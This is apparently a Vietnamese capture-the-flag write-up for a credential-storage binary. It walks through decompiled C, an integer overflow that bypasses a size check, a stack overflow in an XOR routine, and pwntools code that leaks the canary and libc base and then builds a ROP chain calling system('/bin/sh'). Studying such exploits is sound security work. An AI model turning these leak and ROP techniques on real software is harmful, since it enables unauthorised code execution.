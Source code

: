 - Bài này code c thường nên mình sẽ đi thẳng vào bug luôn, đầu tiên ta sẽ thấy được `interger overflow` tại hàm `add_cred`:

- ```c
  unsigned __int64 __fastcall add_cred(int idx)
  {
    __int64 size; // [rsp+10h] [rbp-30h] BYREF
    ssize_t v3; // [rsp+18h] [rbp-28h]
    unsigned __int64 v4; // [rsp+28h] [rbp-18h]
  
    v4 = __readfsqword(0x28u);
    memset(&size, 0, 0x18uLL);
    set_canary((__int64)&size, 24LL);
    if ( note_size[idx] )
    {
      puts("Note exist!");
    }
    else
    {
      printf("Size: ");
      __isoc99_scanf("%lu", &size);
      getchar();
      *(_QWORD *)&note_size[idx] = size;
      if ( note_size[idx] > 0 && note_size[idx] <= 256 )
      {
     ...................................
  ```

- Ta được nhập vào mội biến `size` bằng `%lu` ứng với 8 byte, nhưng `note_size` có kiểu dữ liệu là `int` tuy và nó lại gán `*(_QWORD *)&note_size[idx] = size;` điều này sẽ dẫn tới `note_size` sẽ tràn sang index kế tiếp. Tức `index+1` sẽ không được checksize.

- Tiếp theo là bug `overflow` và nó do bug trên gây ra, tại hàm `lock_n_lock` khi nó thực hiện xor và gán vào stack:

- ```c
  if ( a1 == -1 )
    {
      for ( i = 0; i <= 3; ++i )
      {
        if ( encrypted )
          printf("Encrypting credential %d...", (unsigned int)i);
        else
          printf("Decrypting credential %d...", (unsigned int)i);
        memset(s, 0, 0x100uLL);
        for ( j = 0; j < note_size[i]; ++j )
          s[j] = key[j % 8] ^ note[256 * (__int64)i + j];
        memcpy(&note[256 * (__int64)i], s, note_size[i]);
        puts("\t--> Done");
      }
      check_canary((__int64)s, 264LL);
    }
    else
    {
      for ( k = 0; k < note_size[a1]; ++k )
        s[k] = key[k % 8] ^ note[256 * (__int64)a1 + k];
      memcpy(&note[256 * (__int64)a1], s, note_size[a1]);
    }
  ```

- Do `note_size` lớn sẽ `overflow` được từ `s`. Hàm này sẽ được thực thi nếu `encrypted` bật thông qua `option 4`.

- Thêm một điều nữa, để tránh `canary custom` nó luôn đổi liên tục thì ta chỉ nên `overflow` với `a1!=-1` tức phép xor phía dưới,

- Đầu tiên ta sẽ `leak` nhiều thứ từ tính năng `edit` với `interger overflow`:

- ```c  
  unsigned __int64 __fastcall edit_cred(int a1)
  {
    size_t v1; // rax
    int v2; // eax
    int idx; // [rsp+Ch] [rbp-134h]
    char s[256]; // [rsp+10h] [rbp-130h] BYREF
    char yn[8]; // [rsp+110h] [rbp-30h] BYREF
    ssize_t v7; // [rsp+118h] [rbp-28h]
    unsigned __int64 v8; // [rsp+128h] [rbp-18h]
  
    idx = a1;
    v8 = __readfsqword(0x28u);
    memset(s, 0, 0x118uLL);
    set_canary((__int64)s, 280LL);
    if ( note_size[a1] )
    {
      if ( encrypted )
      {
        printf("Decrypting credential...");
        lock_n_lock(idx);
        puts("\t--> Done");
      }
      printf("Old data: %s\n", &note[256 * (__int64)idx]);
      printf("New data: ");
      v7 = read(0, s, 0x100uLL);
      if ( s[v7 - 1] == 10 )
        s[v7 - 1] = 0;
      printf("Save note? [y/n]: ");
      __isoc99_scanf("%c", yn);
      getchar();
      if ( yn[0] == 121 )
      {
        v1 = strlen(s);
        if ( v1 > note_size[idx] )
        {
          v2 = strlen(s);
          note_size[idx] = v2;
        }
        memcpy(&note[256 * (__int64)idx], s, note_size[idx]);
  	...............................................
  }
  ```

- `memcpy` với `size` lớn sẽ lấy nhiều từ `stack` đưa vào `note`, sau đó ta chỉ việc in nó ra

- ```py
  add_cred(0, 0x00001ff00000000)
  edit_cred(1, b'a'*256)
  add_cred(2, 0x19, b'a'*0x14 + b'abcd' + b'e', 1)
  canary = u64(edit_cred(2, b'a'*0x84 + b'abcd').split(b'abcd')[1][0:8]) - ord('e')
  print('canary: ' + hex(canary))
  
  libc.address = u64(edit_cred(2, b'a'*0x84 + b'abcd').split(b'abcd')[1] + b'\x00'*2) - 0x23a90
  print('libc_base: ' + hex(libc.address))
  
  delete(1)
  delete(2)
  ```

- Sau khi có `libc` thì mình thực hiện bật `option 4` lên và thực hiện `overflow`:

- ```py
  en_de()
  pop_rdi = 0x00000000000240e5 + libc.address
  payload = flat(
      b'a'*0x8,
      canary, 0,
      pop_rdi,
      next(libc.search(b'/bin/sh')),
      pop_rdi+1,
      libc.sym['system']
  )
  add_cred(2, len(payload), payload, 1)
  add_cred(0, 0x000001ff00000000)
  sln(b'> ', 2)
  sln(b'Index: ', 1)
  ```